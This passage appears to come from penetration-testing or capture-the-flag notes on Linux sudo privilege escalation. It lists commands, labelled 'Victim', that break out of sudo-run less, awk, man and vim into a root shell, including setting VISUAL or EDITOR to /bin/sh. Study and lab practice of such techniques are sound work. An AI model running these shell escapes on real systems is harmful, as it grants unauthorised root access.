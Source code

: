 <figure><img src="../../.gitbook/assets/image (9) (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

This option did not work on this box as when you click v it opens nano instead of vi or vim. If you can someone set the environment variables VISUAL and/or EDITOR, you could get this to work but it would be difficult.

#### **Option 2**

**Victim**

```
export VISUAL=vi
export EDITOR=vi
echo 'export EDITOR=vim' >> ~/.bash_profile
echo 'export VISUAL=vim' >> ~/.bash_profile
sudo less /etc/profile
v
:shell
```

#### **Option 3**

**Victim**

```
VISUAL="/bin/sh -c '/bin/sh'" sudo less /etc/profile
v
```

### **awk**

**Victim**

```
sudo awk 'BEGIN {system("/bin/bash")}'
```

### **man**

**Victim**

```
sudo man man 
!bash
```

### **VIM**

**Victim**

```
sudo vim -c ':!/bin/bash'
```
